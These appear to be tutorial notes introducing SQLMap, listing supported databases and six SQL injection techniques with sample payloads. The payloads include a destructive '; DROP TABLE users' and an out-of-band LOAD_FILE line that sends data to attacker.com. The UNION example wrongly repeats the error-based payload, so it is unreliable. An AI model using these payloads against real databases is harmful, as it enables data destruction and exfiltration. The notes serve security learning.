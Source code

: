 ```yaml
---
title: a-intro
draft: false
tags:
---
```

SQLMap is the only penetration testing tool that can properly detect and exploit all known SQLi types.

## Supported Databases

|   |   |   |   |
|---|---|---|---|
|`MySQL`|`Oracle`|`PostgreSQL`|`Microsoft SQL Server`|
|`SQLite`|`IBM DB2`|`Microsoft Access`|`Firebird`|
|`Sybase`|`SAP MaxDB`|`Informix`|`MariaDB`|
|`HSQLDB`|`CockroachDB`|`TiDB`|`MemSQL`|
|`H2`|`MonetDB`|`Apache Derby`|`Amazon Redshift`|
|`Vertica`, `Mckoi`|`Presto`|`Altibase`|`MimerSQL`|
|`CrateDB`|`Greenplum`|`Drizzle`|`Apache Ignite`|
|`Cubrid`|`InterSystems Cache`|`IRIS`|`eXtremeDB`|
|`FrontBase`|

## Techniques Used

- `B`: Boolean-based blind
- `E`: Error-based
- `U`: Union query-based
- `S`: Stacked queries
- `T`: Time-based blind
- `Q`: Inline queries

### Boolean-based Blind SQLi

```sql
AND 1=1
```

Differentiates `TRUE` from `FALSE` query results.

- `TRUE` results are generally based on responses having none or marginal difference to the regular server response.
    
- `FALSE` results are based on responses having substantial differences from the regular server response.

### Error-based SQLi

```sql
AND GTID_SUBSET(@@version,0)
```

### UNION query-based

```sql
AND GTID_SUBSET(@@version,0)
```

### Stacked queries

```sql
; DROP TABLE users
```

### Time-based blind SQL Injection

```sql
AND 1=IF(2>1,SLEEP(5),0)
```

### Inline queries

```sql
SELECT (SELECT @@version) from
```


### Out-of-band SQL Injection

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

